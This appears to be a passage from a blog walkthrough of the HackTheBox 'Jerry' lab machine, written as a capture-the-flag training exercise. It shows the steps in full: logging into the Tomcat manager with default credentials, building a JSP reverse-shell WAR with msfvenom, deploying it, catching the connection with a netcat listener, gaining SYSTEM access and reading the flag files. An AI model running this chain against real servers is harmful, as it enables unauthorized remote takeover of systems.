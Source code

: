 **2**. Login into **tomcat manager panel** using credential **`tomcat`**: **`s3cret`** through URL [**http://10.10.10.95:8080/manager/html**](http://10.10.10.95:8080/manager/html)  and deploy the shell.

**3**. List the **deployed shell** using the URL [**http://10.10.10.95:8080/manager/text/list**](http://10.10.10.95:8080/manager/text/list).

**4**. Start **netcat listener** on your Kali machine to receive the reverse connection from the **deployed shell**.

**5**. Open the URL [**http://10.10.10.95:8080/shell/**](http://10.10.10.95:8080/shell/)  to execute the shell. That’s all you will found reverse connection on your netcat listener.

#### **Create Reverse Shell**

**`$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.197 LPORT=1234 -f war > shell.war`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Creating-war-web-shell.png" alt="Creating reverse shell using msfvenom" height="161" width="917"><figcaption></figcaption></figure>

#### **Deploy The Reverse Shell**

Login to [**http://10.10.10.95:8080/manager/html**](http://10.10.10.95:8080/manager/html) using the credential **`tomcat`:** **`s3cret`** & deploy the shell**.**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Java-shell-upload.png" alt="Uploading shell via GUI tomcat manager panel in Jerry htb walkthrough" height="472" width="879"><figcaption></figcaption></figure>

#### **List Deployed Shell**

Open [**http://10.10.10.95:8080/manager/text/list**](http://10.10.10.95:8080/manager/text/list) in web browser to list all the deployed shell.

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/List-deployed-shell.png" alt="Listing the deployed shell" height="195" width="649"><figcaption></figcaption></figure>

#### **Start Netcat Listener**

**`$ nc -nvlp 1234`**

#### **Execute The Deployed Shell**

Open [**http://10.10.10.95:8080/shell/**](http://10.10.10.95:8080/shell/) in web browser to execute the deployed shell and get connection on your netcat listener.

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Getting-shell-on-netcat.png" alt="Getting User shell via method 2 without metasploit" height="295" width="711"><figcaption></figcaption></figure>

We have got user shell and that too with **NT Authority\system** privilege. Let us capture **user** and **root** flags.

#### **Capture User & Root Flag**

**`$ type C:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Capture-user-and-root-flag.png" alt="Getting User and root shell in Jerry htb writeup" height="157" width="844"><figcaption></figcaption></figure>

This was how I rooted to [**Jerry HackTheBox**](https://ethicalhacs.com/jerry-hackthebox-walkthrough) machine with and without metasploit. Hope you have got something to learn from this box walkthrough and my methodology. Thanks for reading this. For any query and suggestion feel free to ping us at **ethicalhacs@gmail.com**.

### Read More Articles

[\
](https://ethicalhacs.com/bucket-hackthebox-walkthrough/)
